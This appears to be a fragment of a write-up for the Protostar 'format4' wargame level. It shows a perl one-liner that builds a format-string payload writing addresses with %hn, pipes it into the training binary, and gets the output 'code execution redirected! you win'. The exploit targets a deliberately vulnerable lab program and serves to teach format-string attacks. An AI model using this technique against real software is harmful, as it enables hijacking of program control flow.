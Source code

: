 And the attack:

```lang-bash line-numbers 
user@protostar:~$ perl -e 'print "\x26\x97\x04\x08"."\x24\x97\x04\x08"."%2044d"."%4\$hn"."%31920d"."%5\$hn"' | /opt/protostar/bin/format4
&$
..
..
    512
..
..
-1208122336code execution redirected! you win
```
